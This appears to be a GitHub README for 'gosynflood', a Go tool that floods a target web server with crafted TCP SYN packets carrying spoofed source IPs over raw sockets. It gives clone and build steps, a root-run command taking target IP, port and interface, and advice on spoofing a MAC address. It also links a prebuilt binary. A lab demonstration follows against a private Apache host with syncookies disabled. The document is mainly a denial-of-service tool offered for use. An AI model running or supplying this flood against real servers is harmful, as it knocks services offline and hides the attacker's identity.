 
### gosynflood - Repeatedly Send Crafted TCP SYN Packets with Raw Sockets

###### intended for Ubuntu and other Debian distributions

###### USAGE:
<pre>
  <code>
# go get or git clone the project
go get github.com/rootVIII/gosynflood
git clone https://github.com/rootVIII/gosynflood.git


# Navigate to project root and build:
go build .

# raw sockets require root privileges when executing:
sudo ./gosynflood -t &lt;target IPV4 address&gt; -p &lt;port number&gt; -i &lt;network interface&gt;

# Example:
sudo ./gosynflood -t 192.168.1.120 -p 80 -i wlp3s0

** The bin/builds directory has a compiled executable if you do not have
Golang installed or do not want to build it yourself.
  </code>
</pre>

###### CLI OPTIONS:
<pre>
  <code>
-t private or public IP address of webserver
-p port number (defaults to port 80 if not provided)
-i network interface (running without -i will fail but suggest found interfaces)

Enter control-c to stop the flood attack.
  </code>
</pre>

Each packet's IP address is spoofed. <b>MAC addresses are not spoofed</b>.
It is up to you to spoof your MAC Address beforehand if desired.

This attack may only work on web servers susceptible to numerous half-open connections (SYN_RECV).

To demonstrate this, a small Ubuntu Mate running Apache2 will act as the target.
It's a physical machine on a private network.

<hr>
1. The tcp_syncookies flag was set to 0 (to make the target vulnerable for demonstration purposes) and the webserver was started on the target:
<img src="https://github.com/rootVIII/gosynflood/blob/master/bin/screenshots/1.png">


2. The attacker machine (a separate physical machine also running Ubuntu) executes the gosynflood exe with root privileges:
<img src="https://github.com/rootVIII/gosynflood/blob/master/bin/screenshots/5.png">


3. The initial SYNs are visible in Wireshark on the target
<img src="https://github.com/rootVIII/gosynflood/blob/master/bin/screenshots/2.png">
<img src="https://github.com/rootVIII/gosynflood/blob/master/bin/screenshots/3.png">


4. During the attack the webserver should be unreachable at it's URL if it is susceptible. The half-open connections are visible via the command <code>netstat -na --tcp</code>
<img src="https://github.com/rootVIII/gosynflood/blob/master/bin/screenshots/4.png">




This was developed on Ubuntu 18.04 LTS.
<hr>
<b>Author: rootVIII  2020</b>
<br><br>
